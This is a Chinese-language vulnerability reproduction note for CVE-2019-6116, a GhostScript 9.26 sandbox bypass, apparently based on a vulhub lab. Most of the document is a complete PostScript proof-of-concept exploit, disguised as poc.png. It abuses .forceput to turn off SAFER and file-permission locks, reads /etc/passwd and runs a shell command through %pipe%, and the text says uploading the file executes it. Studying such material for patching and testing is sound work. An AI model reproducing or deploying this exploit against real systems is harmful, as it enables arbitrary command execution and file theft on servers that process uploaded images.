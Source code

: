 （CVE-2019-6116）GhostScript 沙箱绕过（命令执行）漏洞
=====================================================

一、漏洞简介
------------

Ghostscript
9.26版本中存在输入验证错误漏洞。该漏洞源于网络系统或产品未对输入的数据进行正确的验证。

二、漏洞影响
------------

Ghostscript 9.26版本

三、复现过程
------------

**poc.png**

    %!PS
    % extract .actual_pdfpaintproc operator from pdfdict
    /.actual_pdfpaintproc pdfdict /.actual_pdfpaintproc get def

    /exploit {
        (Stage 11: Exploitation...)=

        /forceput exch def

        systemdict /SAFER false forceput
        userparams /LockFilePermissions false forceput
        systemdict /userparams get /PermitFileControl [(*)] forceput
        systemdict /userparams get /PermitFileWriting [(*)] forceput
        systemdict /userparams get /PermitFileReading [(*)] forceput

        % update
        save restore

        % All done.
        stop
    } def

    errordict /typecheck {
        /typecount typecount 1 add def
        (Stage 10: /typecheck #)=only typecount ==

        % The first error will be the .knownget, which we handle and setup the
        % stack. The second error will be the ifelse (missing boolean), and then we
        % dump the operands.
        typecount 1 eq { null } if
        typecount 2 eq { pop 7 get exploit } if
        typecount 3 eq { (unexpected)= quit }  if
    } put

    % The pseudo-operator .actual_pdfpaintproc from pdf_draw.ps pushes some
    % executable arrays onto the operand stack that contain .forceput, but are not
    % marked as executeonly or pseudo-operators.
    %
    % The routine was attempting to pass them to ifelse, but we can cause that to
    % fail because when the routine was declared, it used `bind` but many of the
    % names it uses are not operators and so are just looked up in the dictstack.
    %
    % This means we can push a dict onto the dictstack and control how the routine
    % works.
    <<
        /typecount      0
        /PDFfile        { (Stage 0: PDFfile)= currentfile }
        /q              { (Stage 1: q)= } % no-op
        /oget           { (Stage 3: oget)= pop pop 0 } % clear stack
        /pdfemptycount  { (Stage 4: pdfemptycount)= } % no-op
        /gput           { (Stage 5: gput)= }  % no-op
        /resolvestream  { (Stage 6: resolvestream)= } % no-op
        /pdfopdict      { (Stage 7: pdfopdict)= } % no-op
        /.pdfruncontext { (Stage 8: .pdfruncontext)= 0 1 mark } % satisfy counttomark and index
        /pdfdict        { (Stage 9: pdfdict)=
            % cause a /typecheck error we handle above
            true
        }
    >> begin <<>> <<>> { .actual_pdfpaintproc } stopped pop

    (Should now have complete control over ghostscript, attempting to read /etc/passwd...)=

    % Demonstrate reading a file we shouldnt have access to.
    (/etc/passwd) (r) file dup 64 string readline pop == closefile

    (Attempting to execute a shell command...)= flush

    % run command
    (%pipe%id > /tmp/success) (w) file closefile

    (All done.)=

    quit

上传这个poc文件，即可执行`id > /tmp/success`：

![](resource/(CVE-2019-6116)GhostScript沙箱绕过(命令执行)漏洞/media/rId24.png)

参考链接
--------

> https://vulhub.org/\#/environments/ghostscript/CVE-2019-6116/
